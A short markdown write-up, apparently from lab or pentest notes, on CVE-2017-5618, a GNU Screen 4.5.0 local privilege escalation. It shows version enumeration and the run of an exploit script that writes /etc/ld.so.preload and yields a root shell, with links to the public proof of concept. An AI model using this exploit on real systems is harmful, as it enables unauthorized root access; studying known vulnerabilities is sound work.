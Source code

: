 # CVE-2017-5618 - Screen v4.5 (GNU) - Linux - Local Privilege Escalation

GNU screen before 4.5.1 allows local users to modify arbitrary files and consequently gain root privileges by leveraging improper checking of logfile permissions.

## Enumeration

```bash
kali@NIX02:~$ screen -v

Screen version 4.05.00 (GNU) 10-Dec-16
```

## Exploitation

```bash
kali@NIX02:~$ sh screen_exploit.sh 

~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /run/screen/S-kali.

# /bin/bash
root@NIX02:/etc# id
uid=0(root) gid=0(root) groups=0(root),1008(kali)
```

## Links

- [Exploit DB - GNU Screen 4.5.0](https://www.exploit-db.com/exploits/41154)
- [GitHub - CVEDB - Poc-Git - CVE-2017-5618](https://github.com/CVEDB/Poc-Git/blob/main/2017/CVE-2017-5618.md)
- [Mitre - CVE-2017-5618](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5618)
